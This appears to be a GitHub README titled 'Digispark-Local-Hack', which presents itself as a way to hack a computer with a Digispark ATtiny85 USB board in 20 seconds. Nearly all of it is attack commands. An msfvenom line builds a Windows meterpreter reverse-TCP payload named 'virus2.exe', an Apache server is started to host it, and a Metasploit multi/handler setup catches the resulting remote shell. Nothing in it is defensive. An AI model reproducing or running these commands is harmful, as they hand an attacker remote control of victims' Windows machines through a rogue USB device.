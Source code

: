 # Digispark-Local-Hack
You can hack with Digispark Attiny85 in 20 Seconds

//////////////////////////

TERMINAL COMMANDS

//////////////////////////

FOR CREATE VIRUS:

msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=local ip lport=port -a x64 --platform windows -f exe -o virus2.exe

//////////////////////////

FOR START WEB SERVER:

service apache2 start

//////////////////////////

MSFCONSOLE COMMANDS:

use exploit/multi/handler

set payload windows/x64/meterpreter/reverse_tcp

set LHOST local ip

set LPORT port

exploit
